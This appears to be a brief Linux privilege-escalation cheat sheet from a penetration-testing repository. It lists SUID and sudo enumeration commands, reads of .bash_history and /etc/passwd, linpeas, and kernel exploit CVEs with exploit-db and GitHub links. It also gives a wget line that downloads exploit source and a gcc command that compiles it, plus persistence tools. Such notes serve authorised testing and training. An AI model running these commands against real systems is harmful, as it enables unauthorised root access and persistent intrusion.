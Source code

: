 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd
    - Auto Vector Finding
        - linpeas.sh
- Maintain Access
TOOLS
- Kernel Exploit
    - CVE-2017-16995
    - CVE-2021-4034
- GTFOBins
    - find
    - vim
    - sudo
- Python Library Hijacking
OUPUT:
- root shell


## Privilege Escalation
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2017-0143]
    https://www.exploit-db.com/exploits/43970
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp



